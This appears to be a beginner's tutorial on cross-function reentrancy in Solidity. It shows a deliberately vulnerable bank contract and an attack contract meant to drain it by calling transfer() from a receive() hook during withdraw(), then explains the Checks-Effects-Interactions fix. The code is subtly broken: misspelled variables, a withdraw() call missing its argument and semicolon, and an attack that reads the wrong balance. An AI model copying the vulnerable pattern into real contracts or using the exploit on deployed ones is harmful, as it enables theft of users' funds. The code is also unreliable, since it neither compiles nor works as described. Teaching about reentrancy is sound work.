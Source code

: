 ## Cross Function Reentrancy

Lets go straight to an example contract

```solidity
//SPDX-License-Identifier:MIT

pragma solidity 0.8.18;

contract VulnerableBank {
    mapping(address => uint256) public balances;
    bool private locked;

    modifier nonReentrant () {
        require(!locked, "wait this function is still processing");
        locked = true;
        _;

        locked = false;

    }

    function deposit () external payable {
        require(msg.value > 0, "Deposit amount must be greater than 0");
        balances[msg.sender] += msg.value;


    }

    function withdraw(uint256 amount) external nonReentrant {
        uint256 bal = balances[msg.sender];
        require(bal >= amount, "Insuficient balance");

        (bool sucess, ) = payable(msg.sender).call{value: amount} ("");
        require(success, "withdraw failed");

        balances[msg.sender] -= amount;

    }

    function transfer(address to, uint256 amount)  external {
        balances[msg.sender] -= amount;
        balances[to] += ampount;
    }
}

```

lets look at this vulnerable bank  and try to see what could go wrong 

1. The withdraw is using a modifier with means that this time the contract was keen to make sure that the withdraw function could not be reentered but lets take a look at this Attack contract and how  we can attack and drain funds from this contract.

```solidity
//SPDX-License-Identifier:MIT

pragma solidity 0.8.18;

import {VulnerableBank} from './VulnerableBank.sol'; // be sure you have the correct directory

contract Attack {

    VulnerableBank public target;
    address immutable i_owner;


    constructor (address _target) {
        target = VulnerableBank(_target);
        i_owner = msg.sender;

    }

    function deposit() external payable {
        target.deposit{value: msg.value}();

    }

    function withdraw() external {
        target.withdraw()
    }

    receive() external payable {
        uint256 bal = target.balances(address(target));
        target.transfer(i_owner, bal);
    }

}


```
## How it happened

when the attack contract deposits to the Vulnerable bank it is also eligile to withdraw, this time the withdraw has been protected and cannot be reentered but when the attacker calls the transfer it still works. This is because there is no protection in the function making the attacker to transfer  the amount even after withdrawing since his balance is still not updated. That is what reentrancy is, it happenes when a state is yet to be changes here the state is the balance since it is still not updated to be less the amount it can be transfered to stop this issue is to ensure you follow CEI => what is CEI this refers to the checks Effects and Interraction pattern in simple terms is external calls should be called after the functions have finished executing and also add a reentrancy guard so that it protects funxtions from being reentered.
